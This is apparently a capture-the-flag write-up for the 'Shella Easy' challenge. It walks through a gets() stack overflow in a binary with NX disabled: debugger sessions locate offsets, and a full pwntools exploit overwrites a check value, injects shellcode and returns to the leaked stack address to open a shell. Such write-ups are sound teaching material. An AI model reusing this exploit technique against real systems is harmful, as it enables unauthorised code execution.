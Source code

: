 
# Shella Easy

Program leaks a stack address

```
./shella-easy

Yeah I'll have a 0xfff446b0 with a side of fries thanks

```

NX disabled

```
checksec --file=shella-easy --format=json | jq .

{
  "shella-easy": {
    "relro": "partial",
    "canary": "no",
    "nx": "no",
    "pie": "no",
    "rpath": "no",
    "runpath": "no",
    "symbols": "yes",
    "fortify_source": "no",
    "fortified": "0",
    "fortify-able": "2"
  }
}
```

Source code, takes the input of a **64** byte buffer into the culnerable `gets()` function. Then it checks to see if a variable has changed from `0xcafebabe` to ` 0xdeadbeef`. If it has, it does not execute `exit`.

```c
undefined4 main(void)

{
  char input [64];
  int check;
  
  setvbuf(_stdout,(char *)0,2,20);
  setvbuf(_stdin,(char *)0b0,2,20);
  check = L'\xcafebabe';
  printf("Yeah I\'ll have a %p with a side of fries thanks\n",input);
  gets(input);
  if (check != L'\xdeadbeef') {
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  return 0;
}
```

`input` is at an offset of **0x4c** (**-76**) bytes.

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main()
             undefined         <UNASSIGNED>   <RETURN>
             undefined4        Stack[-0x8]:4  local_8                                 XREF[1]:     08048556(R)  
             undefined4        Stack[-0xc]:4  check                                   XREF[2]:     0804851b(W), 
                                                                                                   08048541(R)  
             undefined1[64]    Stack[-0x4c]   input                                   XREF[2]:     08048522(*), 
                                                                                                   08048535(*)  
                             main                                            XREF[4]:     Entry Point(*), 
                                                                                          _start:080483f7(*), 08048630, 
                                                                                          080486a0(*)  
```

Taking a closer look at the comparison check to confirm, `0xdeadbeef` is checked against the value starting at `ebp-0x8` (**64**). 

```
disassemble main
...
   0x0804853e <+99>:    add    esp,0x4
   0x08048541 <+102>:   cmp    DWORD PTR [ebp-0x8],0xdeadbeef
   0x08048548 <+109>:   je     0x8048551 <main+118>
   0x0804854a <+111>:   push   0x0
   0x0804854c <+113>:   call   0x80483a0 <exit@plt>
   0x08048551 <+118>:   mov    eax,0x0
   0x08048556 <+123>:   mov    ebx,DWORD PTR [ebp-0x4]
   0x08048559 <+126>:   leave
   0x0804855a <+127>:   ret
End of assembler dump.
```

Set a breakpoint at the `cmp` instruction

```
pwndbg> b *main+102
Breakpoint 1 at 0x8048541
```

Run the program, fill the **64** byte buffer + `0xdeadbeef` and confirm that the check value  `0xcafebabe` has been overwritten and the `je` is passed.

```
pwndbg> run < <(python3 -c 'import sys,pwn;sys.stdout.buffer.write(b"A"*64 + pwn.p32(0xdeadbeef))')

Starting program: /home/wither/NOTES/TUCTF/2018/Shella-Easy/shella-easy < <(python3 -c 'import sys,pwn;sys.stdout.buffer.write(b"A"*64 + pwn.p32(0xdeadbeef))')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Yeah I'll have a 0xffffce00 with a side of fries thanks

Breakpoint 1, 0x08048541 in main ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────
 EAX  0xffffce00 ◂— 0x41414141 ('AAAA')
 EBX  0x804a000 (_GLOBAL_OFFSET_TABLE_) —▸ 0x8049f0c (_DYNAMIC) ◂— 1
 ECX  0xf7fa58ac (_IO_stdfile_0_lock) ◂— 0
 EDX  0
 EDI  0xf7ffcb60 (_rtld_global_ro) ◂— 0
 ESI  0x8048560 (__libc_csu_init) ◂— push ebp
 EBP  0xffffce48 ◂— 0
 ESP  0xffffce00 ◂— 0x41414141 ('AAAA')
 EIP  0x8048541 (main+102) ◂— cmp dword ptr [ebp - 8], 0xdeadbeef
───────────────────────[ DISASM / i386 / set emulate on ]────────────────────────
 ► 0x8048541  <main+102>                      cmp    dword ptr [ebp - 8], 0xdeadbeef     0xdeadbeef - 0xdeadbeef     EFLAGS => 0x246 [ cf PF af ZF sf IF df of ]
   0x8048548  <main+109>                    ✔ je     main+118                    ...
```

Now that we pass the `cmp`, we need to find the padding to return address, so that we can overwrite that to point to shellcode. Set a breakpoint at the return address

```
...
   0x0804854c <+113>:   call   0x80483a0 <exit@plt>
   0x08048551 <+118>:   mov    eax,0x0
   0x08048556 <+123>:   mov    ebx,DWORD PTR [ebp-0x4]
   0x08048559 <+126>:   leave
   0x0804855a <+127>:   ret
End of assembler dump.
...

 b *main+127
Breakpoint 1 at 0x804855a
```

Use the same payload as before + a cylic pattern, then look up the pattern overwritten into the return address to find the offset of **8**. 

```
pwndbg> run < <(python3 -c 'import sys,pwn;sys.stdout.buffer.write(b"A" * 64 + pwn.p32(0xdeadbeef) + pwn.cyclic(20))')

...
 ► 0x804855a <main+127>    ret                                <0x61616163>
    ↓
...

pwndbg> cyclic -l 0x61616163
Finding cyclic pattern of 4 bytes: b'caaa' (hex: 0x63616161)
Found at offset 8
```

Now that we have control of the return address, we can write an exploit that will write shellcode onto the stack, pass the check and then return to execute it.

```python
#!/usr/bin/python3

# import pwntools
from pwn import *
# import re for regex
from re import *

# only show errors
context.log_level = 'ERROR'

# start the binary process
context.binary = ELF("./shella-easy", checksec=False)
p = process()

# grab the stack address leaked by the program
line = p.recvline().decode().strip()
leaked_addr = int(search(r'0x[\da-f]+', line).group(), 16)

# generate shellcode that will open a shell
shellcode = asm(shellcraft.sh())
# add the shellcode + padding to fill 64B buffer + 0xdeadbeef to pass check + 8B padding to ret + address of shellcode to return to and execute
payload = shellcode + b"A" * (64 - len(shellcode)) + p32(0xdeadbeef) + b"B" * 8 + p32(leaked_addr)

# send the payload and enter interactive mode for the shell
p.sendline(payload)
p.interactive()
```

Running the exploit opens a shell

```shell
python3 exploit.py

$ ls
README.md  exploit.py  shella-easy
```